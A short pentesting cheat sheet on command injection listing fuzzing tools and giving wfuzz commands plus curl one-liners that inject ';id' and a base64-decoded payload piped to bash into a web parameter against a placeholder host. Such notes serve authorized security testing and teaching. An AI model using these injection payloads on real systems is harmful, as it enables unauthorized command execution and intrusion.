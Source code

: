 # Command Injection

## Things to remember
  *  Commands and syntax will depend on the underlying OS, enumerate web stack properly
  *  Keep an eye out for filters such as case-sensitivity, whitespace removal, etc.
      *  PayloadsAllTheThings has a [list of bypass techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md)
  *  HackTricks has a page covering some [different exfil techniques](https://book.hacktricks.xyz/pentesting-web/command-injection)

## Useful tools
  *  [`wfuzz`](https://www.kali.org/tools/wfuzz/) for manually fuzzing web app inputs for command injection
  *  [`seclists`](https://github.com/danielmiessler/SecLists) for some command injection fuzzing lists
  *  [`ping`](https://linux.die.net/man/8/ping), [`curl`](https://curl.se/), and [`wget`](https://www.gnu.org/software/wget/) for generating network traffic upon injection
  *  [`tcpdump`](https://www.tcpdump.org/) and [`python3 web server`](https://docs.python.org/3/library/http.server.html) for sniffing network traffic generated upon injection
  *  [`base64`](https://linux.die.net/man/1/base64) for encoding more complex commands
  *  [`curl`](https://curl.se/) for performing command injection one-liners

## Fuzzing for command injection
  *  `wfuzz` for command injection fuzzing
      *  Fuzz more than just parameters! Cookies, headers, etc.
  *  Carefully parse HTTP POST requests before using `wfuzz`
      *  Be specific with things like cookies, headers, URL structure, etc.
      *  Failing to provide these values can produce ineffective requests
  *  Wordlists with injection techniques are best found on GitHub

```
wfuzz -w /path/to/cmd-inj.txt -b 'exampleCookie=cookieValue' 'http://10.0.0.1/cmd?param=FUZZ'
wfuzz -w /path/to/cmd-inj.txt -H 'exampleHeader: headerValue' -d 'param=FUZZ' 'http://10.0.0.1/cmd'
```

## Exploiting command injection
  *  Successful injection may not be visible
      *  Consider a command that will generate network traffic
      *  `ping` and `tcpdump`, `curl` and `python3 web server`, etc.
  *  `base64` useful for avoiding string escape situations
  *  `curl` in-line HTTP GET parameters must be URL encoded

```
curl -G --data-urlencode 'param=;id' -b 'exampleCookie=cookieValue' 'http://10.0.0.1/cmd'
curl -k -X 'POST' -H 'exampleHeader: headerValue' --data-urlencode 'param=;base64 -d [BASE64 PAYLOAD]|bash' 'https://10.0.0.1/cmd'
```

